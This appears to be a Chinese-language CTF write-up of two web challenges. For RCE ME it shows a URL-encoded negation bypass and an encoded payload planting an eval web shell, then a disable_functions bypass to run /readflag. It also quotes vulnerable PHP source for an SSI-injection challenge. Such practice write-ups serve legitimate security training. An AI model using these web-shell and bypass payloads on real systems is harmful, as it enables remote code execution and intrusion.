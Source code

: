 #### [极客大挑战 2019]RCE ME

参考：https://blog.csdn.net/mochu7777777/article/details/105136633

知识点：URL编码取反绕过

```php
echo urlencode(~'phpinfo'); //%8F%97%8F%96%91%99%90
(~%8F%97%8F%96%91%99%90)(); //phpinfo();
```

查看关键信息，

![](https://s2.loli.net/2022/04/19/vozuLP7ngMN5REs.png)



尝试构造shell连接蚁剑

```php
assert(eval($_POST["cmd"]));

?code=(~%9E%8C%8C%9A%8D%8B)(~%D7%9A%89%9E%93%D7%DB%A0%AF%B0%AC%AB%A4%DD%9C%92%9B%DD%A2%D6%D6);
```

在根目录发现flag和readflag文件，但无法读取，猜测要执行readflag。

此处按照网上的教程，可以使用蚁剑的绕过disable_functions的插件，从而执行命令

<img src="https://s2.loli.net/2022/04/19/vlPbKt4NMYohCIT.png" style="zoom: 67%;" />

这两个经测试都可以，然后执行/readflag即可





#### [BJDCTF2020]EasySearch

**知识点：SSI注入**

扫描目录发现index.php.wap源码：

```php
<?php
    ob_start();
    function get_hash(){
        $chars = 'ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789!@#$%^&*()+-';
        $random = $chars[mt_rand(0,73)].$chars[mt_rand(0,73)].$chars[mt_rand(0,73)].$chars[mt_rand(0,73)].$chars[mt_rand(0,73)];//Random 5 times
        $content = uniqid().$random;
        return sha1($content); 
    }
    header("Content-Type: text/html;charset=utf-8");
    ***
    if(isset($_POST['username']) and $_POST['username'] != '' )
    {
        $admin = '6d0bc1';
        if ( $admin == substr(md5($_POST['password']),0,6)) {
            echo "<script>alert('[+] Welcome to manage system')</script>";
            $file_shtml = "public/".get_hash().".shtml";
            $shtml = fopen($file_shtml, "w") or die("Unable to open file!");
            $text = '
            ***
            ***
            <h1>Hello,'.$_POST['username'].'</h1>
            ***
            ***';
            fwrite($shtml,$text);
            fclose($shtml);
            ***
            echo "[!] Header  error ...";
```